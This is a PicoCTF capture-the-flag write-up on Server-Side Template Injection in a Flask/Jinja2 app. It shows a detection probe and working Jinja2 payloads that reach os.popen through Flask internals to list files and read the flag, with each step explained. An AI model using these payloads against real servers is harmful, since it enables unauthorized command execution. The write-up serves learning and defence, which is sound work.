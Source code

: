 # SSTI Exploit - PicoCTF Challenge Writeup

This was a Server-Side Template Injection (SSTI) challenge on PicoCTF. At first, I noticed there was a text input on the page, and suspected it might be vulnerable to SSTI. To confirm this, I tried the classic payload:

```jinja2
{{7*7}}
```
*note*: (Jinja2 template syntax) -> {{ ... }} is template code execution, anything inside {{ }} is evaluated on the server.

It returned `49`, which confirmed that the input was being rendered by a template engine and was evaluating expressions. Most likely Jinja2.

---

### Step-by-Step Exploitation

After confirming the SSTI vulnerability, I wanted to explore ways to get a shell command executed. I found an example payload that used Flask internals to break out of the template context and run OS commands.

Here's what I used:

```jinja2
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

*note*: `request.application.__globals__`, this is a trick to reach Python's internal global namespace, its basically a Flask object that gets us the application object and gives us access to the global varisbles.
`__builtins__.__import__('os')`, gives us access to Python’s built-in functions, dynamically imports the os module.

This listed the files on the server.

So I followed it up with:

```jinja2
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
*note*: `os.popen('cat flag').read()`, here we are running a shell command `cat flag` using `os.open()` and reading outputting the flag.

And this successfully output the flag.

---

### To break it down:

* `request.application.__globals__`: Gives access to the global namespace in the Flask application.
* `__builtins__.__import__('os')`: Dynamically imports the `os` module using Python internals.
* `.popen('cat flag').read()`: Executes a shell command and returns the output.

This payload chains all of that together to execute a command on the server via template injection.

---

### What I Learned

This was a really cool example of how SSTI can lead to full command execution if not properly sandboxed. It also showed how deeply you can go into Python internals using the right object chains. It was a good learning experience in both Flask internals and exploiting Jinja2-based SSTI vulnerabilities.